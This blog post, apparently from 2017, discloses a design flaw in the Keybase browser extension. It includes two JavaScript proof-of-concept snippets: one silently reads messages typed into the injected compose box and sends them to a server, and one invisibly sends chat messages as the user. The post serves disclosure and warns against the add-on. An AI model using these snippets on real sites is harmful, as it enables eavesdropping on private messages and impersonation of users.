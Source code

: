 ```yaml
---
title: "Keybase Browser Extension Insecure"
date: Sat, 05 Aug 2017 10:26:45 GMT
draft: false
type: posts
categories: 
- 
---
```

# Keybase Browser Extension Insecure

<br/>

<br/>
Yesterday, I discovered that [Keybase](https://keybase.io) has a browser extension for both [Firefox](https://firefox.com) and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When you press this button, a compose window opens, you enter a message, and then the addon contacts your keybase desktop app in order to send a message to that user.

If you are lucky enough to discover the extension by visiting [https://keybase.io/docs/extension](https://keybase.io/docs/extension) and by actually reading the content of the page, you will come across this little bit of information:

> “The Keybase extension uses a compose box inside your browser. If you fear your browser or the social network site’s JavaScript has been compromised – say by another extension or even the social network acting fishy – then just compose the message inside the Keybase app directly. Or send a quick hello note through the extension and save the jucier private details for inside the app.”

This information is **not** on the Firefox or Chrome extension stores.

But what does it _actually_ mean?

It means that Reddit, Twitter, Facebook, Github, Hacker News, Keybase and any other site that they allow to execute JavaScript on their pages can perform the following actions if you visit their websites with the addon installed:

1.  Read any message that you type into the compose box, as you’re typing it.
2.  Send chat messages from you to other Keybase users.

For #1, to read the messages you are composing they simply need to serve up a small amount of JavaScript similar to the following when you visit:

```
if (document.querySelector('.keybase-chat')) {
  let msg = '';
  setInterval(() => {
    const t = document.querySelector('.keybase-reply textarea');
    if (!t || t.value.length === 0 || t.value === msg) return;
    msg = t.value;
    fetch('/report-keybase-chat?msg=' + encodeURIComponent(msg));
  }, 1000);
}
```

In the above code, the first line detects if the user has the keybase addon. If they do, it runs a check on a 1 second interval to see if there is a Keybase composer window open with a message in it. If there is, and the message being composed is different to what it was 1 second ago, then an ajax request is performed to send the content of that message to the server.

For #2, to send a message to a keybase user silently:

```
function sendKeybaseMessage(msg) {

  const s = document.createElement('style');
  s.type = 'text/css';
  s.textContent = '.keybase-reply{opacity:0 !important}';
  document.head.appendChild(s);

  document.querySelector('.keybase-chat').click();
  document.querySelector('.keybase-reply textarea').value = msg;
  const event = new UIEvent('change', { view: window, bubbles: true, cancelable: true });
  document.querySelector('.keybase-reply textarea').dispatchEvent(event);
  document.querySelector('.keybase-reply input[name="keybase-submit"]').click();
  document.querySelector('.keybase-close').click();
  s.remove();

}
```

The “style” related code is there to make sure that the user doesn’t notice the compose window opening and being filled with a message, and the message being sent, by making it invisible temporarily. To specify a recipient other than the one in the profile being viewed, a little more work would need to be done by the server to temporarily redirect you to a different profile page, but it would work.

The troubling thing is, they could actually have made this secure. As well as the chat functionality that they inject into the browsers DOM, they also add a Keybase icon into the browser UI it’s self, outside of the DOM. Clicking on that icon works exactly the same, except it doesn’t inject anything into the DOM, the compose window is outside of the webpage, making it obvious that the browser is in control rather than the webpage. The textarea can not be read and it can not be interacted with from JavaScript.

**Conclusion** : Continue installing and using the excellent desktop app. Don’t even think about installing the browser addon.

[![](https://www.grepular.com/images/amazon/yubikey_nano.jpg)](https://www.grepular.com/redir?key=amazon_yubikey_nano "Yubikey Nano") [![](https://www.grepular.com/images/amazon/saving_bletchley_park.jpg)](https://www.grepular.com/redir?key=amazon_saving_bletchley_park "Saving Bletchley Park")

[Source](https://www.grepular.com/Keybase_Browser_Extension_Insecure)
<br/>
---
